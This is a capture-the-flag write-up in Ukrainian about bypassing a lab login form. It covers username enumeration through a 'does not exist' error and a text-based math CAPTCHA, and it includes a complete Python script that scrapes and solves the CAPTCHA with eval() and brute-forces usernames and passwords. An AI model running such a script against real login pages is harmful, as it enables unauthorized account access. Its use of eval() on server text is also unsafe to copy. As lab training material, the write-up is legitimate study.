






# [Capture! - Can you bypass the login form?] 

Складність: Easy

Ціль: 10.112.148.204

  1. Короткий огляд та аналіз уразливостей
  
   
   

   Веб-додаток захищений самописним обмежувачем запитів (Rate Limiter) та динамічною математичною капчею.
       Попри наміри розробників, форму авторизації вдалося повністю зламати через дві критичні помилки в логіці:
     * Розкриття імен користувачів (Username Enumeration): Якщо ввести неіснуючого користувача, сервер повертає помилку: `The user '...' does not exist`.
     * Важливо для автоматизації: У самому HTML-коді сторінки одинарні лапки екрануються як HTML-сутність `&#39;`. Тобто сервер повертає рядок `The user &#39;username&#39; does not exist`. Це враховано у фінальному скрипті.
     * Динамічна математична CAPTCHA: Після першої ж невдалої спроби з'являється вираз типу `5 + 8 = ?`. Оскільки рівняння динамічно змінюється при кожному запиті, стандартні утиліти (на кшталт Hydra або Burp Intruder) тут не працюють. Але оскільки капча генерується в тексті сторінки у вигляді простого тексту, її легко зчитати за допомогою регулярних виразів `(re)` та обчислити через `eval()`.

  2. Етапи проходження (Walkthrough)

     2.1. Розвідка (Nmap):

     

     2.2. Автоматизація:

     
      
       Оскільки брутфорсити вручну чи через Hydra неможливо, розділяємо атаку на два логічні кроки в одному Python-скрипті:
     * Перебір юзерів: Швидко пробігаємося по файлу usernames.txt. Як тільки бачимо, що повідомлення does not exist зникло — ми знайшли валідне ім'я.
     * Підбір пароля: Фіксуємо знайденого юзера і починаємо перебирати паролі з passwords.txt, паралельно розв'язуючи нову капчу на кожен запит.
    
  3. Фінальний експлойт (exploit.py)

     Цей скрипт використовує requests.Session() для підтримки стабільного TCP-з'єднання (що значно прискорює брутфорс) та бібліотеку tqdm для гарного прогрес-бару в терміналі.

```python
import requests
import re
from tqdm import tqdm

# ================= НАЛАШТУВАННЯ =================
URL = "http://10.112.148.204/login"
USERNAMES_FILE = "usernames.txt"
PASSWORDS_FILE = "passwords.txt"
# ================================================

GREEN = "\033[92m"
RED = "\033[91m"
RESET = "\033[0m"
BOLD = "\033[1m"

# Регулярний вираз точно як у автора
regex = re.compile(r"(\d+\s[+*/-]\s\d+)\s\=\s\?")

def solve_captcha(html_text):
    """Шукає приклад та розв'язує його за допомогою eval"""
    try:
        captcha_str = re.findall(regex, html_text)[0]
        # eval автоматично порахує рядок на кшталт "851 - 43" або "10 * 2"
        return str(eval(captcha_str))
    except Exception:
        return None

def start_exploit():
    # Завантажуємо списки
    with open(USERNAMES_FILE, "r") as f:
        usernames = f.read().splitlines()
    with open(PASSWORDS_FILE, "r") as f:
        passwords = f.read().splitlines()

    print(f"[*] Завантажено {len(usernames)} юзерів та {len(passwords)} паролів.")
    
    # Створюємо сесію
    session = requests.Session()
    
    # 1. Синхронізуємо капчу (робимо запити, поки не отримаємо першу капчу)
    print("[*] Синхронізація капчі...")
    response = session.post(URL, data={"username": "test", "password": "test"})
    captcha = solve_captcha(response.text)
    
    if not captcha:
        # Якщо з першого POST не вийшло, спробуємо GET
        response = session.get(URL)
        captcha = solve_captcha(response.text)
        
    print(f"[+] Капчу синхронізовано! Перша відповідь: {captcha}")

    # ================= КРОК 1: ШУКАЄМО ЮЗЕРА =================
    print("\n[*] Крок 1: Шукаємо справжнього користувача...")
    valid_username = None

    with tqdm(total=len(usernames), unit="юзер(ів)") as pbar:
        for username in usernames:
            pbar.set_description(f"Перевірка: {username:<20}")
            
            data = {"username": username, "password": "WrongPassword123"}
            if captcha:
                data["captcha"] = captcha

            response = session.post(URL, data=data)
            
            # Якщо в тексті відповіді НЕМАЄ фрази "does not exist" — юзер існує!
            if "does not exist" not in response.text:
                valid_username = username
                # Оновлюємо капчу з цієї ж відповіді для наступного кроку
                captcha = solve_captcha(response.text)
                tqdm.write(f"\n{GREEN}{BOLD}[+] ЗНАЙДЕНО РЕАЛЬНОГО КОРИСТУВАЧА: {valid_username}{RESET}\n")
                break
            
            # Отримуємо нову капчу для наступного юзера
            captcha = solve_captcha(response.text)
            pbar.update(1)

    if not valid_username:
        print(f"{RED}[-] Користувача не знайдено. Перевірте, чи правильний URL.{RESET}")
        return

    # ================= КРОК 2: БРУТИМО ПАРОЛЬ =================
    print(f"[*] Крок 2: Підбираємо пароль для {BOLD}{valid_username}{RESET}...")

    with tqdm(total=len(passwords), unit="пароль(ів)") as pbar:
        for password in passwords:
            pbar.set_description(f"Пароль: {password:<20}")
            
            data = {"username": valid_username, "password": password}
            if captcha:
                data["captcha"] = captcha

            response = session.post(URL, data=data)
            
            # Якщо вхід успішний (немає слова Error)
            if "Error" not in response.text:
                tqdm.write("\n" + "="*45)
                tqdm.write(f"{GREEN}{BOLD}[=== УСПІХ!!! ДАНІ ДЛЯ ВХОДУ ЗНАЙДЕНО ===]{RESET}")
                tqdm.write(f"{GREEN}[+] Користувач: {BOLD}{valid_username}{RESET}")
                tqdm.write(f"{GREEN}[+] Пароль:     {BOLD}{password}{RESET}")
                tqdm.write("="*45 + "\n")
                return
            
            # Отримуємо нову капчу для наступного пароля
            captcha = solve_captcha(response.text)
            pbar.update(1)

    print(f"\n{RED}[-] Пароль не знайдено в списку.{RESET}")

if __name__ == "__main__":
    start_exploit()
```


     
